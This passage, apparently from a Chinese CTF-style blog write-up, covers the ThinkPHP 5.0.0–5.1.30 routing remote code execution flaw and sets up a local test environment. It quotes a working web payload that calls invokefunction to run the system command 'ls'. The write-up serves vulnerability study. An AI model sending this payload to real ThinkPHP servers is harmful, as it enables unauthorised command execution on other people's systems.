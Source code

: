 

在网上找到了[相关文章及poc](https://www.modb.pro/db/501435)，强制路由RCE漏洞Thinkphp5`5.0.0 - 5.1.30 远程代码执行（路由处理漏洞）`

![38](/medias/show-think/38.png)

其他师傅博客wp里的`payload`：`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`，跟着到源项目里跟一下漏洞点

[v5.1.28项目地址](https://github.com/top-think/framework/tree/v5.1.28)


在本地用phpstudy的composer在www目录搭个tp5.0.*的环境

```shell
composer create-project topthink/think=5.0.* tp5  --prefer-dist
```

在源码里找到了漏洞点！！在`./tp5/thinkphp/library/think/App.php`中，定义了payload里利用的`invokefunc`方法
